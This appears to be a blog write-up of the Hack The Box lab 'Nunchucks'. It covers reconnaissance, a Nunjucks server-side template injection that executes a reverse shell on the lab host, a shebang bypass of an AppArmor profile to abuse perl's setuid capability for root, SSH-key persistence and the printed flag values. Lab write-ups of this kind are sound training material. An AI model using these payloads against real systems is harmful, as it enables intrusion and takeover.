

+++
title = "Nunchucks"
date = "2023-12-17"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2021-11-02

**Created by**: [TheCyberGeek](https://app.hackthebox.com/users/114053)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.10`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.11.122`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Nunchucks using a TCP SYN
`nmap` scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.11.122" -p-
```

```
<SNIP>
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.11.122" --top-ports "500"
```

```
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.11.122" -p "22,80,443" -sV
```

```
<SNIP>
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Alright, so `nmap` managed to determine that Nunchucks is running Linux, and the
version of SSH suggests that it might be Ubuntu.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.11.122" -p "22,80,443" -sC
```

```
<SNIP>
PORT    STATE SERVICE
22/tcp  open  ssh
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http
|_http-title: Did not follow redirect to https://nunchucks.htb/
443/tcp open  https
|_http-title: Nunchucks - Landing Page
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
<SNIP>
```

The `http-title` script indicates that the HTTP website redirects to HTTPS.

Moreover, the `ssl-cert` script discloses that the SSL certificate issuer is set
to the domain `nunchucks.htb`. I'll add it to my `/etc/hosts` file.

```sh
❯ echo "10.10.11.122 nunchucks.htb" >> "/etc/hosts"
```

## Services enumeration

### Nginx

#### Exploration

Let's browse to `https://nunchucks.htb/`.


It's a website about 'Nunchucks', an ecommerce shop creation platform.

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.


This reveals that this web page is using Node.js and Express, a web framework for
Node.js.

#### Exploration

The links in the navbar are just anchors to the homepage. However, the `/signup`
page gives us a form to create an account:


However, if we try to create an account, we get this error message:


We can also log in at `/login`. We're presented with the same form, and if we
try to log in with random credentials here's the error message we get:


#### Site crawling

Let's see if we can find any linked web pages or directories.

```sh
❯ katana -u "https://nunchucks.htb/"
```

```
<SNIP>
https://nunchucks.htb/
https://nunchucks.htb/assets/js/scripts.js
https://nunchucks.htb/assets/js/jquery.easing.min.js
https://nunchucks.htb/assets/js/body
https://nunchucks.htb/assets/js/jquery.magnific-popup.js
https://nunchucks.htb/assets/js/bootstrap.min.js
mailto:support@nunchucks.htb
https://nunchucks.htb/assets/css/magnific-popup.css
https://nunchucks.htb/assets/css/styles.css
https://nunchucks.htb/assets/css/swiper.css
https://nunchucks.htb/privacy
https://nunchucks.htb/terms
https://nunchucks.htb/signup
https://nunchucks.htb/assets/js/swiper.min.js
https://nunchucks.htb/
https://nunchucks.htb/index.html
https://nunchucks.htb/assets/css/fontawesome-all.css
https://nunchucks.htb/assets/js/jquery.min.js
https://nunchucks.htb/assets/css/bootstrap.css
https://nunchucks.htb/terms.html
https://nunchucks.htb/privacy.html
https://nunchucks.htb/assets/js/signup.js
https://nunchucks.htb/login
```

The JavaScript files could be interesting, but unfortunately I haven't found
anything noteworthy.

#### Directory fuzzing

Let's see if this website hides unliked web pages and directories.

```sh
❯ ffuf -v -c -u "https://nunchucks.htb/FUZZ" -w "/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt" -mc "100-403,405-599" -e "/"
```

```
<SNIP>
[Status: 200, Size: 45, Words: 4, Lines: 4, Duration: 38ms]
| URL | https://nunchucks.htb/2006
    * FUZZ: 2006

[Status: 200, Size: 45, Words: 4, Lines: 4, Duration: 39ms]
| URL | https://nunchucks.htb/contact/
    * FUZZ: contact/

[Status: 200, Size: 45, Words: 4, Lines: 4, Duration: 39ms]
| URL | https://nunchucks.htb/crack
    * FUZZ: crack

[Status: 200, Size: 45, Words: 4, Lines: 4, Duration: 40ms]
| URL | https://nunchucks.htb/11
    * FUZZ: 11

[Status: 200, Size: 45, Words: 4, Lines: 4, Duration: 38ms]
| URL | https://nunchucks.htb/images
    * FUZZ: images
<SNIP>
```

There's actually a default web page that gets displayed when the specify an
invalid one. Let's retrieve its length:

```sh
❯ curl -k -s "https://nunchucks.htb/nonExistent" | wc -c
```

```
45
```

Now let's fuzz for directories once again, but this time I'll filter the
responses with length `45`:

```sh
❯ ffuf -v -c -u "https://nunchucks.htb/FUZZ" -w "/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt" -mc "100-403,405-599" -e "/" -fs "45"
```

```
<SNIP>
[Status: 200, Size: 19134, Words: 5929, Lines: 251, Duration: 38ms]
| URL | https://nunchucks.htb/privacy/
    * FUZZ: privacy/

[Status: 200, Size: 19134, Words: 5929, Lines: 251, Duration: 42ms]
| URL | https://nunchucks.htb/privacy
    * FUZZ: privacy

[Status: 200, Size: 9172, Words: 3129, Lines: 184, Duration: 46ms]
| URL | https://nunchucks.htb/login
    * FUZZ: login

[Status: 200, Size: 9172, Words: 3129, Lines: 184, Duration: 46ms]
| URL | https://nunchucks.htb/login/
    * FUZZ: login/

[Status: 200, Size: 17753, Words: 5558, Lines: 246, Duration: 46ms]
| URL | https://nunchucks.htb/terms/
    * FUZZ: terms/

[Status: 200, Size: 17753, Words: 5558, Lines: 246, Duration: 50ms]
| URL | https://nunchucks.htb/terms
    * FUZZ: terms

[Status: 200, Size: 9488, Words: 3266, Lines: 188, Duration: 38ms]
| URL | https://nunchucks.htb/signup
    * FUZZ: signup

[Status: 200, Size: 9488, Words: 3266, Lines: 188, Duration: 38ms]
| URL | https://nunchucks.htb/signup/
    * FUZZ: signup/

[Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 60ms]
| URL | https://nunchucks.htb/assets
| --> | /assets/
    * FUZZ: assets

[Status: 200, Size: 19134, Words: 5929, Lines: 251, Duration: 73ms]
| URL | https://nunchucks.htb/Privacy
    * FUZZ: Privacy

[Status: 200, Size: 19134, Words: 5929, Lines: 251, Duration: 74ms]
| URL | https://nunchucks.htb/Privacy/
    * FUZZ: Privacy/

[Status: 200, Size: 9172, Words: 3129, Lines: 184, Duration: 45ms]
| URL | https://nunchucks.htb/Login
    * FUZZ: Login

[Status: 200, Size: 9172, Words: 3129, Lines: 184, Duration: 45ms]
| URL | https://nunchucks.htb/Login/
    * FUZZ: Login/

[Status: 200, Size: 17753, Words: 5558, Lines: 246, Duration: 42ms]
| URL | https://nunchucks.htb/Terms/
    * FUZZ: Terms/

[Status: 200, Size: 17753, Words: 5558, Lines: 246, Duration: 42ms]
| URL | https://nunchucks.htb/Terms
    * FUZZ: Terms

[Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 49ms]
| URL | https://nunchucks.htb/Assets
| --> | /Assets/
    * FUZZ: Assets

[Status: 200, Size: 9488, Words: 3266, Lines: 188, Duration: 63ms]
| URL | https://nunchucks.htb/Signup/
    * FUZZ: Signup/

[Status: 200, Size: 9488, Words: 3266, Lines: 188, Duration: 68ms]
| URL | https://nunchucks.htb/Signup
    * FUZZ: Signup

[Status: 200, Size: 9488, Words: 3266, Lines: 188, Duration: 41ms]
| URL | https://nunchucks.htb/SignUp
    * FUZZ: SignUp

[Status: 200, Size: 9488, Words: 3266, Lines: 188, Duration: 42ms]
| URL | https://nunchucks.htb/SignUp/
    * FUZZ: SignUp/

[Status: 200, Size: 9488, Words: 3266, Lines: 188, Duration: 46ms]
| URL | https://nunchucks.htb/signUp
    * FUZZ: signUp

[Status: 200, Size: 9488, Words: 3266, Lines: 188, Duration: 46ms]
| URL | https://nunchucks.htb/signUp/
    * FUZZ: signUp/

[Status: 200, Size: 19134, Words: 5929, Lines: 251, Duration: 40ms]
| URL | https://nunchucks.htb/PRIVACY
    * FUZZ: PRIVACY

[Status: 200, Size: 19134, Words: 5929, Lines: 251, Duration: 41ms]
| URL | https://nunchucks.htb/PRIVACY/
    * FUZZ: PRIVACY/

[Status: 200, Size: 30589, Words: 12757, Lines: 547, Duration: 45ms]
| URL | https://nunchucks.htb/
    * FUZZ: 

[Status: 400, Size: 1136, Words: 50, Lines: 11, Duration: 50ms]
| URL | https://nunchucks.htb/%C0/
    * FUZZ: %C0/

[Status: 400, Size: 1135, Words: 50, Lines: 11, Duration: 50ms]
| URL | https://nunchucks.htb/%C0
    * FUZZ: %C0

[Status: 200, Size: 9172, Words: 3129, Lines: 184, Duration: 45ms]
| URL | https://nunchucks.htb/LogIn
    * FUZZ: LogIn

[Status: 200, Size: 9172, Words: 3129, Lines: 184, Duration: 50ms]
| URL | https://nunchucks.htb/LogIn/
    * FUZZ: LogIn/

[Status: 200, Size: 9172, Words: 3129, Lines: 184, Duration: 47ms]
| URL | https://nunchucks.htb/LOGIN
    * FUZZ: LOGIN

[Status: 200, Size: 9172, Words: 3129, Lines: 184, Duration: 47ms]
| URL | https://nunchucks.htb/LOGIN/
    * FUZZ: LOGIN/
<SNIP>
```

We get a bunch of hits, but there's nothing interesting.

#### Vhost fuzzing

Let's try to fuzz for vhosts now.

First, let's get the length of an invalid vhost.

```sh
❯ curl -k -s "https://nunchucks.htb/" -H "Host: nonExistent.nunchucks.htb" | wc -c
```

```
30589
```

Let's filter the vhosts with length `30589` then:

```sh
❯ ffuf -v -c -u "https://nunchucks.htb/" -H "Host: FUZZ.nunchucks.htb" -w "/usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt" -mc "100-403,405-599" -fs "30589"
```

```
<SNIP>
[Status: 200, Size: 4029, Words: 1053, Lines: 102, Duration: 69ms]
| URL | https://nunchucks.htb/
    * FUZZ: store
<SNIP>
```

We find a valid vhost: `store`!

I'll add this to my `/etc/hosts` file.

```sh
❯ echo "10.10.11.122 store.nunchucks.htb" >> "/etc/hosts"
```

#### Exploration

Let's browse to `https://store.nunchucks.htb/`.


It's a page for the 'Nunchucks' store. The heading indicates that it's not open
yet.

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.


#### Exploration

We only have the possiblity of entering an email in a form to subscribe to a
newsletter to get notified when it opens.

This is literally the only functionality of this website... so it must be
vulnerable to something! Let's try to enter a random email:


It's rendered and reflected in the response!

#### Under the hood

When we fill the form with an email and submit it, a POST request is sent to
`/api/submit` with the JSON data:

```json
{
    "email": "<EMAIL>"
}
```

The subsequent response data is:

```json
{
    "response": "You will receive updates on the following email address: <EMAIL>"
}
```

#### SSTI

Since our input is rendered and reflected in the response, maybe the website is
vulnerable to SSTI. Let's check for it by entering the following payloads using
Burp Suite to bypass the frontend validation:

```
{{7*7}} ${7*7} <%= 7*7 %> ${{7*7}} #{7*7} *{7*7}
```

Here's the response JSON data:

```json
{
    "response": "You will receive updates on the following email address: 49 ${7*7} <%= 7*7 %> $49 #{7*7} *{7*7}."
}
```

We see that the payloads `{{7*7}}` and `${{7*7}}` have been computed to `49`!
But the second one is actually the first one with an extra character, so really
only the first one is computed.

## Foothold (SSTI)

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

We know that Nunchucks is using the Express framework, but we don't know which
template engine it's using.

If we search online for it, we see that Express actually supports
[a lot of them](https://expressjs.com/en/resources/template-engines.html)!

Fortunately, one of them is named `Nunjucks`... considering it's close to the
name of the box, it's safe to assume that it's the template engine used by the
website!

I'll select a payload from
[HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks)
to exploit this SSTI.

However, we still need to come up with a payload to use with the SSTI! I want to
obtain a reverse shell, so I'll choose the Base64 encoded version of the 'Bash
-i' payload from [RevShells](https://www.revshells.com/) configured to obtain a
`/bin/bash` shell.

I'll save it as the `BASE64_REVSHELL_PAYLOAD` shell variable.

### Exploitation

Let's abuse the SSTI we identified to obtain a reverse shell.

```sh
❯ curl -k -s  -H "Content-Type: application/json" "https://store.nunchucks.htb/api/submit" -X "POST" -d "{\"email\":\"{{range.constructor(\\\"return global.process.mainModule.require('child_process').execSync('/bin/echo $BASE64_REVSHELL_PAYLOAD | /usr/bin/base64 -d | /bin/bash -i')\\\")()}}\"}"
```

If we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.122] 43200
<SNIP>
david@nunchucks:/var/www/store.nunchucks$
```

It caught the reverse shell!

### Spawning a pty & establishing persistence

Let's use SSH to spawn a pty and to establish persistence.

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key, and I'll add the corresponding public key to
`authorized_keys`. Finally, I'll connect over SSH to Nunchucks as `david`.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `david`.

### Architecture

What is Nunchucks's architecture?

```sh
david@nunchucks:~$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Nunchucks is using.

```sh
david@nunchucks:~$ cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.3 LTS"
```

Okay, so it's Ubuntu 20.04.

### Kernel

Let's find the kernel version of Nunchucks.

```sh
david@nunchucks:~$ uname -r
```

```
5.4.0-86-generic
```

It's `5.4.0`.

### Users

Let's enumerate all users.

```sh
david@nunchucks:~$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
david
root
```

There's `david` (us) and `root`.

### Groups

Let's enumerate all groups.

```sh
david@nunchucks:~$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
audio
avahi
backup
bin
bluetooth
cdrom
colord
crontab
daemon
david
dialout
dip
disk
fax
floppy
games
geoclue
gnats
input
irc
kmem
kvm
landscape
list
lp
lpadmin
lxd
mail
man
messagebus
mysql
netdev
news
nogroup
operator
plugdev
proxy
pulse
pulse-access
render
root
rtkit
saned
sasl
scanner
shadow
src
ssh
staff
sudo
sys
syslog
systemd-coredump
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tcpdump
tss
tty
users
utmp
uucp
uuidd
video
voice
www-data
```

The `lxd` group is interesting to elevate privileges.

### NICs

Let's gather the list of connected NICs.

```sh
david@nunchucks:~$ ip a
```

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:f5:82 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.122/23 brd 10.10.11.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:f582/64 scope global dynamic mngtmpaddr 
       valid_lft 86392sec preferred_lft 14392sec
    inet6 fe80::250:56ff:feb9:f582/64 scope link 
       valid_lft forever preferred_lft forever
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Nunchucks's hostname?

```sh
david@nunchucks:~$ hostname
```

```
nunchucks
```

Yeah I know, very surprising.

## System enumeration

### Flags

If we check our home folder, we find the user flag.

```sh
david@nunchucks:~$ cat "/home/david/user.txt"
```

```
ee71bd31ecd6b4abe3b8fe2b65921b65
```

### Exploring `/opt`

If we explore the `/opt` folder, we find a `backup.pl` file:

```pl
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0); 

my $tmpdir        = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog
{
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
```

As its name implies, this script is used to create backups for the web server.
It creates a temporary folder in `/tmp/`, creates a TAR file with the name set
to the current time in this folder, moves it into `/opt/web_backups`, and
deletes the temporary folder.

However, only `root` is allowed to write into `/opt/web_backups/`, so this
script is using `POSIX::setuid(0);` to change its permissions. But how is it
able to do that?

### Capabilities

Let's see which binaries have special capabilities.

```sh
david@nunchucks:~$ find "/" -type "f" -exec getcap "{}" \; 2>"/dev/null"
```

```
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

The binary `/usr/bin/perl` has the `cap_setuid` capability set to `ep`, which
means that it has the ability to set its effective user ID, and it's allowed to
do so during its execution! So this is why the `backup.pl` script in `/opt` can
change its UID.

### AppArmor

Let's list the applications AppArmor profiles:

```sh
david@nunchucks:~$ ls -lap "/etc/apparmor.d" | grep -v "/"
```

```
<SNIP>
-rw-r--r--   1 root root  1313 May 19  2020 lsb_release
-rw-r--r--   1 root root  1108 May 19  2020 nvidia_modprobe
-rw-r--r--   1 root root  3222 Mar 11  2020 sbin.dhclient
-rw-r--r--   1 root root  3202 Feb 25  2020 usr.bin.man
-rw-r--r--   1 root root   442 Sep 26  2021 usr.bin.perl
-rw-r--r--   1 root root   672 Feb 19  2020 usr.sbin.ippusbxd
-rw-r--r--   1 root root  2006 Jul 22  2021 usr.sbin.mysqld
-rw-r--r--   1 root root  1575 Feb 11  2020 usr.sbin.rsyslogd
-rw-r--r--   1 root root  1385 Dec  7  2019 usr.sbin.tcpdump
```

There is one for `/usr/bin/perl`. Let's retrieve it.

```sh
david@nunchucks:~$ cat "/etc/apparmor.d/usr.bin.perl"
```

```
# Last Modified: Tue Aug 31 18:25:30 2021
#include <tunables/global>

/usr/bin/perl {
  #include <abstractions/base>
  #include <abstractions/nameservice>
  #include <abstractions/perl>

  capability setuid,

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

  /usr/bin/id mrix,
  /usr/bin/ls mrix,
  /usr/bin/cat mrix,
  /usr/bin/whoami mrix,
  /opt/backup.pl mrix,
  owner /home/ r,
  owner /home/david/ r,

}
```

This AppArmor profile denies read access to `/etc/nsswitch.conf`, read-write
access to files under `/root`, and read-write access to `/etc/shadow`. It only
allows to run a few files, including the `backup.pl` script we found in `/opt`.

That's problematic... how can we get `root` if we can't edit scripts that are
allowed to change their UID?

## Privilege escalation (Capabilities)

Since the `cap_setuid` is set on `/usr/bin/perl`, we can execute this binary
and change our UID!

The issue is that an AppArmor limits the files that can use this binary.
However, if we search online for ways to bypass this restriction, we find
[this HackTricks heading](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/apparmor#apparmor-shebang-bypass).
It mentions [a 'feature'](https://bugs.launchpad.net/apparmor/+bug/1911431) that
allows to bypass AppArmor profiles policies by adding a shebang at the beginning
of a script, and executing it directly.

In our case, this means that we could create a Perl script starting with
`#!/usr/bin/perl` and make it executable. When Linux tries to load the script as
executable, the shebang tells it what interpreter to use. But AppArmor treats
scripts as their own executables, so the rules for the interpreter don't apply!
It would allow us to execute `/usr/bin/perl` without the AppArmor rules.

### Preparation

The goal is to put this in practice to obtain an elevated shell.

I'll create a `privesc.pl` file to execute `/bin/bash`:

```pl
#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);

exec "/bin/bash -i"
```

Then, I'll make it executable.

### Exploitation

Let's abuse `/usr/bin/perl`'s capabilities to get a shell as `root`:

```sh
david@nunchucks:~$ /tmp/privesc.pl
```

```
root@nunchucks:~#
```

Nice!

### Establishing persistence

Let's use SSH to establish persistence.

Our home folder contains a `.ssh` folder. There's no existing private key, so
I'll create one, and I'll add the corresponding public key to `authorized_keys`.
Finally, I'll connect over SSH to Nunchucks as `root`.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@Nunchucks:~# cat "/root/root.txt"
```

```
5dcb2897a0d8b80c7c91ad2cbe4d5649
```

# Afterwords



That's it for this box! 🎉

I rated the user flag as 'Easy' and the root flag as 'Not too easy'. The
foothold was quite easy to find, and straightforward to exploit thanks to online
resources. The privilege escalation was really easy to find, but it was harder
to circumvent the AppArmor protection in place. I had to perform a bit of
research to find a way to bypass it, but once I found one it was trivial to
exploit `perl`'s capabilities to get `root`.

Thanks for reading!
